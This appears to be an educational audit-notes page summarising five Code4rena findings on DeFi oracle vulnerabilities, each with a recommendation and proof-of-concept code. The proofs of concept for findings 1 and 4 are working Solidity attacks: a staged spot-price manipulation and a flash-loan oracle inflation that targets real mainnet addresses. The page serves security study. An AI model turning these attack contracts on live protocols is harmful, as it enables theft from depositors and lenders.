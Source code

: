 # ETAAcademy-Adudit: 7. Oracle

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>07. Oracle</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>oracle</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] The use of spot price by CoreSaltyFeed can lead to price manipulation and undesired liquidations

### Difference between TWAP and Chainlink

- Summary: Chainlink's instant spot prices and CoreSaltyFeed's manipulable prices create arbitrage opportunities. Low liquidity and a $500 maximum reward make attacks profitable. If Chainlink fails, a 3% market change isn't needed for the attack. Borrowers may face unexpected liquidation, and honest liquidators may be unable to act due to price manipulation.

- Impact & Recommendation: Consider replacing CoreSaltyFeed with a different oracle that provides better protection against manipulation, like Band Protocol.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-01-salty#h-03-the-use-of-spot-price-by-coresaltyfeed-can-lead-to-price-manipulation-and-undesired-liquidations) & [Report](https://code4rena.com/reports/2024-01-salty)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: BUSL 1.1
    pragma solidity =0.8.22;
    import "../../dev/Deployment.sol";
    import "../PoolUtils.sol";
    contract H2 is Deployment
        {
        TestERC20 immutable tokenA;
        TestERC20 immutable tokenB;
        address ALICE = address(0x1111);
        address BOB = address(0x2222);
                constructor()
            {
                initializeContracts();
                grantAccessAlice();
                grantAccessBob();
                grantAccessCharlie();
                grantAccessDeployer();
                grantAccessDefault();
                finalizeBootstrap();
                vm.startPrank(address(daoVestingWallet));
                salt.transfer(DEPLOYER, 1000000 ether);
                salt.transfer(address(collateralAndLiquidity), 1000000 ether);
                vm.stopPrank();
                vm.startPrank( DEPLOYER );
                tokenA = new TestERC20("TOKENA", 18);
                tokenB = new TestERC20("TOKENB", 18);
                vm.stopPrank();
                _prepareToken(tokenA);
                _prepareToken(tokenB);
                _prepareToken(weth);
                vm.stopPrank();
                vm.prank(address(dao));
                poolsConfig.whitelistPool( pools, tokenA, tokenB );
                vm.stopPrank();
            }
            // Make the required approvals and transfer to Bob and Alice.
            function _prepareToken(IERC20 token) internal {
                vm.startPrank( DEPLOYER );
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                // For WBTC, we can't use 'ether', so we use 10**8.
                uint decimals = TestERC20(address(token)).decimals();
                token.transfer(ALICE, 1_000_000 * (10**decimals));
                token.transfer(BOB, 1_000_000 * (10**decimals));
                vm.startPrank(ALICE);
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                vm.startPrank(BOB);
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                vm.stopPrank();
            }
            // Create pools that will participate in arbitrage
            // Note: We have all required pools for successful arbitrage, see ArbitrageSearch::_arbitragePath
            // swap: swapTokenIn->WETH
            // arb: WETH->swapTokenIn->WBTC->WETH
            // We have: tokenA/WETH, tokenA/WBTC, WBTC/WETH
            function _makeArbitragePossible(uint amountToDeposit) internal {
                // based on Pools.t.sol::testDepositDoubleSwapWithdraw
                vm.startPrank(DEPLOYER);
                wbtc.approve(address(collateralAndLiquidity), type(uint256).max );
                weth.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenA.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenB.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenA.approve(address(pools), type(uint256).max );
                vm.warp(block.timestamp + stakingConfig.modificationCooldown());
                collateralAndLiquidity.depositCollateralAndIncreaseShare(
                    amountToDeposit * 10**8, amountToDeposit * 1 ether, 0, block.timestamp, false
                );
                vm.stopPrank();
                vm.startPrank(address(dao));
                poolsConfig.whitelistPool( pools, tokenA, wbtc);
                poolsConfig.whitelistPool( pools, tokenA, weth);
                poolsConfig.whitelistPool( pools, tokenB, wbtc);
                poolsConfig.whitelistPool( pools, tokenB, weth);
                vm.stopPrank();
                vm.startPrank(DEPLOYER);
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenA, wbtc, amountToDeposit * 1 ether, amountToDeposit * 10**8, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenB, wbtc, amountToDeposit * 1 ether, amountToDeposit * 10**8, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenA, weth, amountToDeposit * 1 ether, amountToDeposit * 1 ether, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenB, weth, amountToDeposit * 1 ether, amountToDeposit * 1 ether, 0,
                    block.timestamp, false
                );
                vm.stopPrank();
            }
            function _getReservesAndPrice(IERC20 _tokenA, IERC20 _tokenB) internal view returns (
                string memory _tokenASymbol, string memory _tokenBSymbol,
                uint reserveA, uint reserveB, uint priceBinA
            ) {
                (reserveA, reserveB) = pools.getPoolReserves(_tokenA, _tokenB);
                _tokenASymbol = TestERC20(address(_tokenA)).symbol();
                _tokenBSymbol = TestERC20(address(_tokenB)).symbol();
                uint8  _tokenADecimals = TestERC20(address(_tokenA)).decimals();
                uint8  _tokenBDecimals = TestERC20(address(_tokenB)).decimals();
                // reserveA / reserveB  || b.decimals - a.decimals  || normalizer
                // 1e8/1e18             || diff 10                  || 1e28
                // 1e18/1e18            || diff 0                   || 1e18
                // 1e18/1e8             || diff -10                 || 1e8
                int8 decimalsDiff = int8(_tokenBDecimals) - int8(_tokenADecimals);
                uint normalizerPower = uint8(int8(18) + decimalsDiff);
                uint normalizer = 10**normalizerPower;
                // price with precision 1e18
                priceBinA = reserveB == 0
                        ? 0
                        : ( reserveA * normalizer ) / reserveB;
            }
            function _printReservesAndPriceFor(IERC20 _tokenA, IERC20 _tokenB) internal view
            {
                (
                    string memory _tokenASymbol,
                    string memory _tokenBSymbol,
                    uint reserveA,
                    uint reserveB,
                    uint priceBinA
                ) = _getReservesAndPrice(_tokenA, _tokenB);
                console2.log("%s reserves: %e", _tokenASymbol , reserveA);
                console2.log("%s reserves: %e", _tokenBSymbol, reserveB);
                console2.log("%s price in %s: %e", _tokenBSymbol, _tokenASymbol, priceBinA);
                console.log("");
            }
            // Extracted some local variables to storage due to too many local variables.
            struct MovePriceParams {
                uint amountToExchange;
                uint expectedMovementPercents;
                uint expectedLoss;
            }
            uint gasBefore = 1; // Set to 1 to save gas on updates and obtain more accurate gas estimations.
            uint stepsCount;
            // Splitting a swap into several steps will significantly reduce slippage.
            // More steps will further reduce slippage, thereby decreasing the cost of the attack.
            // However, too many steps can incur high gas costs; for instance, 100 steps will cost approximately 3+4=7 million gas (as indicated in the console.log output).
            uint constant steps = 100;
            function _movePrice(MovePriceParams memory p) internal {
                /* Before the attack */
                console.log("\n%s", "__BEFORE");
                // Check price before
                (,,,,uint priceBefore) = _getReservesAndPrice(tokenA, weth);
                assertEq(1 ether, priceBefore); // price is 1:1
                _printReservesAndPriceFor(tokenA, weth);
                uint wethBefore = weth.balanceOf(ALICE);
                uint tokenABefore = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", wethBefore);
                console2.log("tokenA.balanceOf(ALICE): %e", tokenABefore);
                /* Move the price */
                vm.startPrank(ALICE);
                gasBefore = gasleft();
                for (uint i; i < steps; i++){
                    pools.depositSwapWithdraw(tokenA, weth, p.amountToExchange/steps, 0, block.timestamp + 300);
                }
                console.log("Gas first(for) loop: ", gasBefore - gasleft());
                /* After the attack */
                console.log("\n%s", "__AFTER");
                // Console.log the output
                _printReservesAndPriceFor(tokenA, weth);
                uint wethAfter = weth.balanceOf(ALICE);
                uint tokenAAfter = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", weth.balanceOf(ALICE));
                console2.log("tokenA.balanceOf(ALICE): %e", tokenA.balanceOf(ALICE));
                uint wethGained = wethAfter - wethBefore;
                uint tokenALost = tokenABefore - tokenAAfter;
                console2.log("weth.balanceOf(ALICE) diff: %e", wethGained);
                console2.log("tokenA.balanceOf(ALICE) diff: %e", tokenALost);
                // Note: Since the price of tokenA and WETH are the same at the start, with a 1:1 ratio,
                // we can subtract and add them as equivalent values.
                uint attackPrice = tokenALost - wethGained;
                console2.log("Losses for the attacker (before swapping back): %e", attackPrice);
                // Assert that the attack was successful and inexpensive.
                (,,,,uint priceAfter) = _getReservesAndPrice(tokenA, weth);
                uint priceDiff = priceAfter - priceBefore;
                assertTrue(priceDiff >= p.expectedMovementPercents * 1 ether / 100);
                /* The attacker can further reduce the cost by exchanging back. */
                /* After the exchange, the price is moved back. */
                console.log("\n%s", "__AFTER_EXCHANGING_BACK");
                (,,,,uint currentPrice) = _getReservesAndPrice(tokenA, weth);
                uint step = p.amountToExchange/steps;
                gasBefore = gasleft();
                while (currentPrice > 1 ether){
                    pools.depositSwapWithdraw(weth, tokenA, step, 0, block.timestamp);
                    (,,,,currentPrice) = _getReservesAndPrice(tokenA, weth);
                    stepsCount++;
                }
                // Console.log the output
                console2.log("Gas second(while) loop: ", gasBefore - gasleft());
                console2.log("stepsCount", stepsCount);
                _printReservesAndPriceFor(tokenA, weth);
                uint wethAfterBalancing = weth.balanceOf(ALICE);
                uint tokenAAfterBalancing = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", weth.balanceOf(ALICE));
                console2.log("tokenA.balanceOf(ALICE): %e", tokenA.balanceOf(ALICE));
                int wethDiff = int(wethAfterBalancing) - int(wethBefore);
                int tokenADiff = int(tokenAAfterBalancing) - int(tokenABefore);
                console2.log("weth.balanceOf(ALICE) diff: %e", wethDiff);
                console2.log("tokenA.balanceOf(ALICE) diff: %e", tokenADiff);
                // Note: Since the price of tokenA and WETH are the same at the start, with a 1:1 ratio,
                // we can subtract and add them as equivalent values.
                int sumDiff = wethDiff + tokenADiff;
                console2.log("Diff (positive=profit) for the attacker: %e", sumDiff);
                console2.log("Arbitrage profits for DAO: %e", pools.depositedUserBalance(address(dao), weth ));
            }
        function testMovePrice10PercentsFor1000EtherPools() public
            {
                _makeArbitragePossible(1_000);
                _movePrice(MovePriceParams(75 ether, 10, 0.0363 ether));
            }
        function testMovePrice3PercentsFor1000EtherPools() public
            {
                _makeArbitragePossible(1_000);
                _movePrice(MovePriceParams(23 ether, 3, 0.0036 ether));
            }
        function testMovePrice3PercentsFor100EtherPools() public
            {
                _makeArbitragePossible(100);
                _movePrice(MovePriceParams(2.3 ether, 3, 0.0004 ether));
            }
        function testMovePrice3PercentsFor10EtherPools() public
            {
                _makeArbitragePossible(10);
                _movePrice(MovePriceParams(0.23 ether, 3, 0.00008 ether));
            }
    }

  ```

  </details>

## 2.[High] OUSGInstantManager will allow excessive OUSG token minting during USDC depeg event

### Excessive OUSG token minting during USDC depeg

- Summary: OUSGInstantManager allows users to mint OUSG tokens using USDC, based on a fixed conversion rate, without validation checks on the current USDC price. The minting logic relies on the OUSG price obtained from an oracle, constrained to ensure stability. During a USDC depeg event, where USDC's value deviates from 1 USD, users can potentially mint excessive OUSG tokens, leading to a significant impact on token supply.

- Impact & Recommendation: Excessive OUSG token minting during USDC depeg events. Implement an additional Oracle to consider current USDC price when calculating OUSG token minting.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-ondo-finance#h-01-ousginstantmanager-will-allow-excessive-ousg-token-minting-during-usdc-depeg-event) & [Report](https://code4rena.com/reports/2024-03-ondo-finance)

  <details><summary>POC</summary>

  ```solidity
       function setPrice(int256 newPrice) external onlyRole(SETTER_ROLE) {
       if (newPrice <= 0) {
         revert InvalidPrice();
       }
   @-> if (block.timestamp - priceTimestamp < MIN_PRICE_UPDATE_WINDOW) {
         revert PriceUpdateWindowViolation();
       }
   @-> if (_getPriceChangeBps(rwaPrice, newPrice) > MAX_CHANGE_DIFF_BPS) {
         revert DeltaDifferenceConstraintViolation();
       }
       // Set new price
       int256 oldPrice = rwaPrice;
       rwaPrice = newPrice;
       priceTimestamp = block.timestamp;
       emit RWAPriceSet(oldPrice, newPrice, block.timestamp);
     }

       function _getMintAmount(
           uint256 usdcAmountIn,
           uint256 price
       ) internal view returns (uint256 ousgAmountOut) {
           uint256 amountE36 = _scaleUp(usdcAmountIn) * 1e18;
           ousgAmountOut = amountE36 / price;
       }

  ```

  </details>

## 3.[High] Anyone making use of the MagicLP’s TWAP to determine token prices will be exploitable.

### TWAP updating mechanism

- Summary: MagicLP's TWAP updating mechanism allows attackers to manipulate recorded prices by inflating reserves before a query, resulting in potentially exploitative trading conditions for unsuspecting users. This can lead to significant profit for attackers who exploit the manipulated prices during trading activities, posing a risk to any application relying on MagicLP’s TWAP for token price determination.

- Impact & Recommendation: `_twapUpdate()` needs to be called before reserves are updated.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-abracadabra-money#h-01-anyone-making-use-of-the-magiclps-twap-to-determine-token-prices-will-be-exploitable) & [Report](https://code4rena.com/reports/2024-03-abracadabra-money)

<details><summary>POC</summary>

```solidity
    function _twapUpdate() internal {
        uint32 blockTimestamp = uint32(block.timestamp % 2 ** 32);
        uint32 timeElapsed = blockTimestamp - _BLOCK_TIMESTAMP_LAST_;
        if (timeElapsed > 0 && _BASE_RESERVE_ != 0 && _QUOTE_RESERVE_ != 0) {
            /// @dev It is desired and expected for this value to
            /// overflow once it has hit the max of `type.uint256`.
            unchecked {
                _BASE_PRICE_CUMULATIVE_LAST_ += getMidPrice() * timeElapsed;
            }
        }
        _BLOCK_TIMESTAMP_LAST_ = blockTimestamp;
    }

    function _resetTargetAndReserve() internal returns (uint256 baseBalance, uint256 quoteBalance) {
        baseBalance = _BASE_TOKEN_.balanceOf(address(this));
        quoteBalance = _QUOTE_TOKEN_.balanceOf(address(this));
        if (baseBalance > type(uint112).max || quoteBalance > type(uint112).max) {
            revert ErrOverflow();
        }
        _BASE_RESERVE_ = uint112(baseBalance);
        _QUOTE_RESERVE_ = uint112(quoteBalance);
        _BASE_TARGET_ = uint112(baseBalance);
        _QUOTE_TARGET_ = uint112(quoteBalance);
        _RState_ = uint32(PMMPricing.RState.ONE);
        _twapUpdate();
    }
    function _setReserve(uint256 baseReserve, uint256 quoteReserve) internal {
        _BASE_RESERVE_ = baseReserve.toUint112();
        _QUOTE_RESERVE_ = quoteReserve.toUint112();
        _twapUpdate();
    }


```

</details>

## 4.[High] Oracle price can be manipulated

### Oracle price

- Summary: MagicLpAggregator allows attackers to manipulate pair token prices by inflating reserve values. For example, an attacker can use a flash loan to inflate the pair price, which can deceive users relying on the oracle's price information, leading to potential financial losses.

- Impact & Recommendation: Consider add a sanity check in MagicLpAggregator to compare base and quote token prices with the Chainlink price feed.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-abracadabra-money#h-04-oracle-price-can-be-manipulated) & [Report](https://code4rena.com/reports/2024-03-abracadabra-money)

<details><summary>POC</summary>

```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.13;
    import "utils/BaseTest.sol";
    import "oracles/aggregators/MagicLpAggregator.sol";
    // import "forge-std/console2.sol";
    interface IDodo {
        function getVaultReserve() external view returns (uint256 baseReserve, uint256 quoteReserve);
        function _QUOTE_TOKEN_() external view returns (address);
        function sellBase(address to) external returns (uint256);
        function sellQuote(address to) external returns (uint256);
    }
    interface IFlashMinter {
        function flashLoan(address, address, uint256, bytes memory) external;
    }
    contract MagicLpAggregatorExt is MagicLpAggregator {
        constructor(
            IMagicLP pair_,
            IAggregator baseOracle_,
            IAggregator quoteOracle_
        ) MagicLpAggregator(pair_, baseOracle_, quoteOracle_) {}
        function _getReserves() internal view override returns (uint256, uint256) {
            return IDodo(address(pair)).getVaultReserve();
        }
    }
    contract Borrower {
        IFlashMinter private immutable minter;
        IDodo private immutable dodoPool;
        MagicLpAggregator private immutable oracle;
        constructor(address _minter, address _dodoPool, address _oracle) {
            minter = IFlashMinter(_minter);
            dodoPool = IDodo(_dodoPool);
            oracle = MagicLpAggregator(_oracle);
        }
        /// Initiate a flash loan
        function flashBorrow(address token, uint256 amount) public {
            IERC20Metadata(token).approve(address(minter), ~uint256(0));
            minter.flashLoan(address(this), token, amount, "");
        }
        /// ERC-3156 Flash loan callback
        function onFlashLoan(
            address initiator,
            address token, // DAI
            uint256 amount,
            uint256 fee,
            bytes calldata data
        ) external returns (bytes32) {
            // tamper with the DAI/USDT pool
            IERC20Metadata(token).transfer(address(dodoPool), amount);
            dodoPool.sellBase(address(this));
            IERC20Metadata quote = IERC20Metadata(dodoPool._QUOTE_TOKEN_());
            uint256 quoteAmount = quote.balanceOf(address(this));
            // pair price after tampering
            uint256 response = uint256(oracle.latestAnswer());
            console.log("BAD ANSWER: ", response);
            // Do something evil here
            // swap tokens back and repay the loan
            address(quote).call{value: 0}(abi.encodeWithSignature("transfer(address,uint256)", address(dodoPool), quoteAmount));
            dodoPool.sellQuote(address(this));
            IERC20Metadata(token).transfer(initiator, amount + fee);
            return keccak256("ERC3156FlashBorrower.onFlashLoan");
        }
    }
    contract MagicLpAggregatorTest is BaseTest {
        MagicLpAggregatorExt aggregator;
        address public DAI = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
        address constant DAI_MINTER = 0x60744434d6339a6B27d73d9Eda62b6F66a0a04FA;
        address constant DODO_POOL = 0x3058EF90929cb8180174D74C507176ccA6835D73;
        function setUp() public override {
            fork(ChainId.Mainnet, 19365773);
            _setUp();
        }
        function _setUp() public {
            super.setUp();
            aggregator = new MagicLpAggregatorExt(
                IMagicLP(DODO_POOL),
                IAggregator(0xAed0c38402a5d19df6E4c03F4E2DceD6e29c1ee9),
                IAggregator(0x3E7d1eAB13ad0104d2750B8863b489D65364e32D)
            );
        }
        function testGetResult() public {
            uint256 response = uint256(aggregator.latestAnswer());
            // pair price before ~ $2
            assertEq(response, 2000502847471294054);
            console.log("GOOD ANSWER: ", response);
            // use DAI flash minter to inflate the pair price to $67
            Borrower borrower = new Borrower(DAI_MINTER, DODO_POOL, address(aggregator));
            deal(DAI, address(borrower), 1100 * 1e18);
            IERC20Metadata(DAI).approve(address(borrower), type(uint256).max);
            borrower.flashBorrow(DAI, 100_000_000 ether);
        }
    }

```

</details>

## 5.[Medium] Same heartbeat for multiple price feeds is vulnerable

### Oracle heartbeat

- Summary: ChainLinkDataConsumer applies the same allowedPriceUpdateDelay (heartbeat) to multiple Chainlink feeds, despite each feed having different native heartbeats (e.g., USDC/USD with 24h vs. others with ~1h). This design forces the contract to either use the longest heartbeat (risking consumption of stale prices from faster feeds) or the shortest heartbeat (causing frequent reverts when slower feeds are within their normal delay). As a result, the system faces a trade-off between downtime and stale data, undermining the reliability of price checks.

- Impact & Recommendation: Use individual heartbeat periods
  <br> 🐬: [Source](https://code4rena.com/reports/2025-08-morpheus#m-01-same-heartbeat-for-multiple-price-feeds-is-vulnerable) & [Report](https://code4rena.com/reports/2025-08-morpheus)

<details><summary>POC</summary>

```solidity

    if (block.timestamp < updatedAt_ || block.timestamp - updatedAt_ > allowedPriceUpdateDelay) {
        return 0;
    }

```

</details>
